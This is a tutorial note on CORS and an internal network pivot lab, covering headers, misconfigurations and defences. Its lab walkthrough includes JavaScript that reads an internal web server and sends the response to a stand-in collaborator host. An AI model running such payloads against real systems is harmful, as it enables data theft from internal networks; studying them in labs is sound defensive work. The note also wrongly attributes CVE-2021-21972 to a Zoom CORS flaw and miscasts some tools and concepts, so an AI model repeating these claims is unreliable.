

## Cross-Origin Resource Sharing (CORS)

### Introduction to CORS

Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to tell browsers to give a web application running at one origin, access to selected resources from a different origin. A web application makes a cross-origin HTTP request when it requests a resource from a different domain than the one that served the web application.

#### Why CORS Matters

CORS is crucial for web security because it helps mitigate various types of attacks, such as Cross-Site Request Forgery (CSRF) and Cross-Site Scripting (XSS). Without proper CORS configurations, an attacker could potentially exploit these vulnerabilities to steal sensitive data or perform unauthorized actions on behalf of a user.

### Background Theory

To understand CORS, it's essential to grasp the concept of origins. An origin is defined by the scheme (protocol), hostname (domain), and port number of a URL. Two URLs are considered to be from the same origin if and only if all these three components match exactly.

For example, `https://example.com` and `https://example.com:8080` are considered different origins due to the port difference.

#### Same-Origin Policy

The Same-Origin Policy is a critical security measure implemented by web browsers. It restricts how a document or script loaded from one origin can interact with a resource from another origin. This policy prevents malicious scripts from accessing sensitive data on other websites.

However, there are legitimate reasons for allowing cross-origin requests. For instance, a web application might need to fetch data from an API hosted on a different domain. CORS provides a way to safely enable these cross-origin requests while maintaining security.

### CORS Headers

CORS operates through specific HTTP headers that control how resources are shared across origins. Here are some key CORS headers:

- **Access-Control-Allow-Origin**: Specifies which origins are permitted to access the resource. It can be a specific origin or the wildcard `*` to allow all origins.
  
- **Access-Control-Allow-Methods**: Lists the HTTP methods allowed for the resource.
  
- **Access-Control-Allow-Headers**: Specifies which headers can be used during the actual request.
  
- **Access-Control-Max-Age**: Indicates how long the results of a preflight request can be cached.

#### Example of CORS Headers

```http
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Allow-Headers: Content-Type, Authorization
Access-Control-Max-Age: 86400
```

### CORS Vulnerabilities

Despite its benefits, CORS can introduce vulnerabilities if not properly configured. One common issue is misconfigured `Access-Control-Allow-Origin` headers, which can lead to unauthorized access.

#### Real-World Example: CVE-2021-21972

In 2021, a significant CORS vulnerability was discovered in the Zoom web client (CVE-2021-21972). The vulnerability allowed attackers to bypass CORS restrictions and access sensitive information from the Zoom web client. This was possible due to a misconfigured `Access-Control-Allow-Origin` header that allowed requests from arbitrary domains.

### Internal Network Pivot Attack

An internal network pivot attack involves using a compromised system within an internal network to gain access to other systems within the same network. This type of attack often exploits CORS misconfigurations to bypass network segmentation and access internal resources.

#### Example Scenario

Consider a scenario where an attacker has compromised a web application running on an internal network. The attacker wants to pivot from this compromised system to other internal systems. By exploiting a CORS misconfiguration, the attacker can send requests to internal web servers and retrieve their responses.

### Lab Setup

Let's walk through a lab setup to demonstrate an internal network pivot attack using CORS misconfiguration.

#### Step 1: Set Up the Exploit Server

First, set up an exploit server that will host the malicious script. This server should be accessible from both the attacker and the victim.

```http
POST /store HTTP/1.1
Host: exploit-server.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

script=<malicious-script>
```

#### Step 2: Configure the Burp Collaborator

Burp Collaborator is a tool that allows you to monitor interactions between your browser and the server. Configure it to listen for incoming requests.



#### Step 3: Deliver the Exploit to the Victim

Deliver the malicious script to the victim. The script will attempt to identify internal web servers and fetch their responses.

```javascript
try {
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "http://internal-web-server.example.com", true);
    xhr.onreadystatechange = function() {
        if (xhr.readyState === 4 && xhr.status === 200) {
            var response = xhr.responseText;
            // Send response to Burp Collaborator
            var xhr2 = new XMLHttpRequest();
            xhr2.open("POST", "http://burp-collaborator.example.com", true);
            xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr2.send("response=" + encodeURIComponent(response));
        }
    };
    xhr.send();
} catch (e) {
    // Ignore errors
}
```

### How to Prevent / Defend

#### Detection

To detect CORS misconfigurations, you can use tools like `OWASP ZAP`, `Burp Suite`, or `CORS Anywhere`. These tools can help you identify and test CORS settings to ensure they are correctly configured.

#### Prevention

1. **Configure Access-Control-Allow-Origin Properly**: Ensure that the `Access-Control-Allow-Origin` header is set to only allow trusted origins. Avoid using the wildcard `*` unless absolutely necessary.

2. **Use Secure Coding Practices**: Implement secure coding practices to prevent XSS and CSRF attacks, which can be exploited to bypass CORS restrictions.

3. **Network Segmentation**: Segment your internal network to limit the scope of potential damage. Ensure that sensitive systems are isolated from less secure systems.

4. **Regular Audits**: Regularly audit your CORS configurations to ensure they remain secure. Use automated tools to scan for misconfigurations.

#### Secure Code Fix

Here’s an example of a vulnerable CORS configuration and its secure counterpart:

**Vulnerable Configuration:**

```http
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *
```

**Secure Configuration:**

```http
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: https://trusted-origin.example.com
```

### Conclusion

Understanding and properly configuring CORS is crucial for maintaining web security. By following best practices and regularly auditing your configurations, you can prevent CORS-related vulnerabilities and protect your applications from internal network pivot attacks.

### Practice Labs

For hands-on practice with CORS vulnerabilities and internal network pivot attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers detailed labs on CORS misconfigurations and related attacks.
- **OWASP Juice Shop**: Provides a vulnerable web application where you can practice identifying and exploiting CORS issues.
- **DVWA (Damn Vulnerable Web Application)**: Contains scenarios where CORS misconfigurations can be exploited.

These labs provide a practical environment to reinforce the concepts learned in this chapter.

---
<!-- nav -->
[[03-CORS and Internal Network Pivot Attacks|CORS and Internal Network Pivot Attacks]] | [[Web Security (PortSwigger)/07-Cross-origin Resource Sharing (CORS)/05-Lab 4 CORS vulnerability with internal network pivot attack/00-Overview|Overview]] | [[05-Expert Lab Setup|Expert Lab Setup]]
